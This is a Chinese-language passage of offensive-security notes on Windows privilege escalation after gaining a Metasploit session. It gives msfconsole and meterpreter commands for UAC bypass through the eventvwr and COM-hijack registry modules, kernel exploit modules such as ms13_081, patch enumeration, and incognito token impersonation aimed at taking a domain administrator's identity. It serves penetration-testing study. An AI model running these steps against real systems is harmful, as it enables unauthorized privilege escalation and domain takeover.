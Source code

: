 - **Windows 权限提升绕过 UAC 保护(内存注入)**
    ```
    background
    use exploit/windows/local/bypassuac_eventvwr
    set session 1
    Exploit
    ```

- **通过 COM 处理程序劫持**

    首先介绍一下这个 COM 处理程序劫持,此模块将通过在 hkcu 配置单元中创建 COM 处理程序注册表项来绕过 Windows UAC.当加载某些较高完整性级别进程时,会引用这些注册表项,从而导致进程加载用户控制的 DLL.这些 DLL 包含导致会话权限提升的 payload.此模块修改注册表项,但在调用 payload 后将清除该项.这个模块需要 payload 的体系架构和操作系统匹配,但是当前的低权限 meterpreter 会话体系架构中可能不同.如果指定 exe::custom,则应在单独的进程中启动 payload 后调用 ExitProcess().此模块通过目标上的 cmd.exe 调用目标二进制文件.因此,如果 cmd.exe 访问受到限制,此模块将无法正常运行.
    ```
    background
    use exploit/windows/local/bypassuac_comhijack
    set session 1
    Exploit
    ```

- **通过 Eventvwr 注册表项**

    首先介绍一下这个模块,此模块将通过在当前用户配置单元下劫持注册表中的特殊键并插入将在启动 Windows 事件查看器时调用的自定义命令来绕过 Windows UAC.它将生成关闭 UAC 标志的第二个 shell.此模块修改注册表项,但在调用 payload 后将清除该项.该模块不需要 payload 的体系架构和操作系统匹配.如果指定 EXE ::Custom,则应在单独的进程中启动 payload 后调用 ExitProcess().
    ```
    background
    use exploit/windows/local/bypassuac_eventvwr
    set session 1
    Exploit
    ```

**利用系统漏洞提权**

除了这些模块还有其它的通过直接通过 incognito 中的 add_localgroup_user 提升、ms13-081、ms15-051、ms16-032、MS16-016、MS14-068、ms18_8120_win32k_privesc 域权限提升等其它的权限提升方法.
```bash
background
use exploit/windows/local/ms13_081_track_popup_menu # 以 ms13-081 为例
set session
Exploit

# 或

background
use post/windows/gather/enum_patches
set session
Exploit
```

**令牌假冒**

在用户登录 windows 操作系统时,系统都会给用户分配一个令牌(Token),当用户访问系统资源时都会使用这个令牌进行身份验证,功能类似于网站的 session 或者 cookie.

msf 提供了一个功能模块可以让我们假冒别人的令牌,实现身份切换,如果目标环境是域环境,刚好域管理员登录过我们已经有权限的终端,那么就可以假冒成域管理员的角色.
```bash
getuid                              # 查看当前用户
use incognito                       # 进入该模块
list_tokens -u                      # 查看存在的令牌
impersonate_token [Username]        # 令牌假冒
# 注意用户名的斜杠需要写两个.

getuid                              # 查看是否切换成功
```

---